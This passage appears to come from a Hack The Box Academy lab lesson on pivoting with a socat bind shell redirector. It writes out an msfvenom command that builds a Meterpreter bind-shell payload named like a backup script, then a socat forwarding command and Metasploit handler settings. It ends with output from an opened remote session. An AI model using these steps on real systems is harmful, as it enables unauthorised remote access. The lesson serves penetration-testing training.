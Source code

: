 ____
Similar to our socat's reverse shell redirector, we can also create a socat bind shell redirector. This is different from reverse shells that connect back from the Windows server to the Ubuntu server and get redirected to our attack host. In the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target. The below figure should explain the pivot in a much better way.

![](https://academy.hackthebox.com/storage/modules/158/55.png)

We can create a bind shell using msfvenom with the below command.

#### Creating the Windows Payload

Socat Redirection with a Bind Shell

```shell-session
D4rsel@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```

We can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.

#### Starting Socat Bind Shell Listener

Socat Redirection with a Bind Shell

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

Finally, we can start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)

#### Configuring & Starting the Bind multi/handler

Socat Redirection with a Bind Shell

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

We can see a bind handler connected to a stage request pivoted via a socat listener upon executing the payload on a Windows target.

#### Establishing Meterpreter Session

Socat Redirection with a Bind Shell

```shell-session
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```